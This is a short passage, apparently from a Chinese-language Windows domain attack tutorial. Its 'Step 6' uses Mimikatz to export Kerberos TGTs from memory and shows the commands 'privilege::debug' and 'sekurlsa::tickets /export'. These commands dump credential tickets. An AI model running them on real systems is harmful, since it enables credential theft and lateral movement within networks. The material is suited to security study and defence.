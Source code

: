 [![](assets/1705982146-b12ca69a216444e1ff42f0126d18815a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222831-2f536a8e-b7a0-1.png)  
Step 6：为了方便起见，我们这里直接使用Mimikatz从内存中导出TGT

```plain
privilege::debug
sekurlsa::tickets /export
```
